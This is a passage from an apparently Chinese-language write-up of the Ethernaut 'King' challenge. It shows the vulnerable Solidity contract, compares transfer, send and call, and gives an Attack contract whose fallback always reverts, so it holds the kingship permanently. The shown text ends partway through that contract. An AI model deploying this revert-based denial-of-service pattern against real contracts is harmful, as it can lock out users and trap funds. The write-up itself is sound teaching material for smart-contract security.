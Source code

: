 ## King

阻止其他人成为 King

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```

主要是address.transfer()，当发送失败时会回滚状态

```js
await web3.utils.fromWei(await contract.prize())//查看目前价格，是0.001ether
```

Solidity中几种转账方式：

- **address.transfer()**
  当发送失败时会 throw ；回滚状态
  只会传递部分 Gas 供调用，防止重入，2300gas限制
- **address.send()**
  当发送失败时会返回 false
  只会传递部分 Gas 供调用，防止重入，2300gas限制
- **address.call.value()()**
  当发送失败时会返回 false
  传递所有可用 Gas 供调用，不能有效防止重入

当 transfer 调用失败时会回滚状态，所以只要前任国王拒绝接受转账就可以一直是国王

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Attack {
    address payable instance;
    constructor(address payable _address) public payable {
        instance = _address;
    }
    function hack() public {
        instance.call.value(0.001 ether)("");
    }
    fallback() external {
        revert();
```